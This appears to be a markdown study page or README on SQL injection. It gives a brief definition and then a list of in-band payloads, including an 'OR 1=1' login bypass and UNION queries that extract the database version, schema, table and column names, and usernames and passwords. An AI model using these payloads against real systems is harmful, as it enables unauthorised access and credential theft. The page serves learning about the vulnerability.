 # SQLi (Structured Query Language) Injection Summary

## What is SQL Injection?
SQL Injection is a web security vulnerability that allows a hacker to interfere with the queries that an application makes to its database. It occurs when untrusted input is inserted into a SQL query without proper validation or escaping, enabling the hacker to manipulate the database.

## Types of SQL Injection

### **1. In-Band SQLi**
In-Band SQLi is the most common and straightforward type of attack, where the attacker retrieves results using the same communication channel.


**- Basic authentication bypass**
```sql
' OR 1=1; --
```
![Basic authentication bypass](imgs/in-band/sqli-payload-01.jpg)


**- Union-based to retrieve version**
```sql
' UNION SELECT NULL, @@version; --
' UNION SELECT NULL, version(); --
```
![Union-based to retrieve version](imgs/in-band/sqli-payload-02.jpg)


**- Union-based to retrieve database name**
```sql
' UNION SELECT NULL, database(); --
```
![Union-based to retrieve database name](imgs/in-band/sqli-payload-03.jpg)


**- Union-based to retrieve all table names**
```sql
' UNION SELECT NULL, table_name FROM information_schema.tables WHERE table_schema=database(); --
```
![Union-based to retrieve all table names](imgs/in-band/sqli-payload-04.jpg)


**- Union-based to retrieve column names**
```sql
' UNION SELECT NULL, column_name FROM information_schema.columns WHERE table_name='users'; --
```
![Union-based to retrieve column names](imgs/in-band/sqli-payload-05.jpg)


**- Retrieve usernames and passwords**
```sql
' UNION SELECT username, password FROM users; --
```
![Retrieve usernames and passwords](imgs/in-band/sqli-payload-06.jpg)


**- Extracting data from a specific table**
```sql
' UNION SELECT NULL, column_name FROM users; --
```
![Extracting data from a specific table](imgs/in-band/sqli-payload-07.jpg)
![Extracting data from a specific table](imgs/in-band/sqli-payload-08.jpg)


**- Check the length of the database name**
```sql
' OR LENGTH(database()) > 0; --
%' AND LENGTH(database()) = 10; --
```
![Check the length of the database name](imgs/in-band/sqli-payload-09.jpg)


**- Retrieve data from a specific column as a group**
```sql
' UNION SELECT 1,2,3,4; --
' UNION SELECT 1,2,3,group_concat(username) FROM users; --
```
![Retrieve data from a specific column as a group](imgs/in-band/sqli-payload-10.jpg)
